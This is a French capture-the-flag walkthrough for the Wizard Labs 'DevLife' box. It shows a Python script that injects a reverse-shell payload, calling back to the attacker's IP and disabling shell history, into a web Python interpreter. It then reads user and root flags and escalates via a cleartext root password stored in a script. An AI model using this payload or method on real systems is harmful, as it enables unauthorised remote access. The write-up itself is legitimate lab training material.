 ```yaml
---
title: Solution du CTF DevLife de Wizard Labs
tags: [CTF,WizardLabs]
---
```


The Meaning of Life
-------------------

Sur ce CTF facile de [Wizard Labs](https://labs.wizard-security.net/) se trouve un site web d'un certain *Teddy Smith* indiquant qu'il travaille sur un interpréteur Python pour le web.  

Du coup on n'est pas trop surpris de trouver ceci à l'URL */dev* :  

![WizardLabs CTF Devlife python interpreter RCE](/assets/img/wizard-labs/devlife_interpreter.png)

On remarque vite que l'output des commandes ne nous est pas retourné. Il semble aussi que l'interpréteur a du mal à digérer les double-quotes, peut être le signe d'une injection de commande shell (on peut imaginer un appel du type *python2 -c "your\_payload\_here"*).  

Vu que l'on a du Python, autant s'y tenir. J'ai fait le script suivant pour passer plusieurs lignes au script PHP :  

```python
import requests

backdoor = (
    "import os;"
    "import socket;"
    "import pty;"
    "s=socket.socket();"
    "s.connect(('10.254.0.29',7777));"
    "os.dup2(s.fileno(),0);"
    "os.dup2(s.fileno(),1);"
    "os.dup2(s.fileno(),2);"
    "os.putenv('HISTFILE','/dev/null');"
    "pty.spawn('/bin/bash');"
    "s.close()"
)

response = requests.post(
        "http://10.1.1.20/dev/interpreter.php",
        data={"com": backdoor}
)
print(response.text)
```

Pour le néophyte Python, l'absence de virgules dans la variable *backdoor* n'est pas une typo, juste une façon de rendre plus lisible une longue chaîne.  

man sudoers
-----------

Une fois notre shell obtenu en tant que *www-data* j'ai vite remarqué différents scripts en relation avec *sudo* ou *su* :  

```
www-data@Devlife:/var/www/html/dev$ w
 13:38:45 up  2:13,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1     -                11:26    2:10m  0.13s  0.05s nano sudo.py
www-data@Devlife:/var/www/html/dev$ last
tedd     pts/1        10.253.0.158     Sun Dec 23 13:21 - 13:22  (00:01)
root     tty1                          Sun Dec 23 11:26   still logged in
reboot   system boot  4.9.0-7-amd64    Sun Dec 23 11:25   still running
reboot   system boot  4.9.0-7-amd64    Sun Dec 23 11:21   still running
tedd     pts/1        10.254.0.6       Mon Sep 17 16:13 - 16:49  (00:36)
reboot   system boot  4.9.0-7-amd64    Sat Sep 15 21:19   still running

wtmp begins Sat Sep 15 21:19:20 2018
```

Même chose pour l'utilisateur *tedd* (en plus de son flag) :  

```
www-data@Devlife:/var/www/html/dev$ cat /home/tedd/user.txt
529c7a0e511974d8e8761430bb8a12bf93e44406

www-data@Devlife:/home/tedd/.env$ cat su.py

import pexpect
child = pexpect.spawn('su root')
child.expect ('Password:')
child.sendline('teddyxy2019')
child.expect('\$')
child.sendline('whoami')
```

Stockage du mot de passe... mauvaise idée :p  

Les utilisateurs *tedd* et *root* partagent le même mot de passe.  

```
root@Devlife:~# cat /root/root.txt
d360adc7e9c5ceb3588a79bd88e3cec7a5d14368
```


*Published April 04 2019 at 18:05*
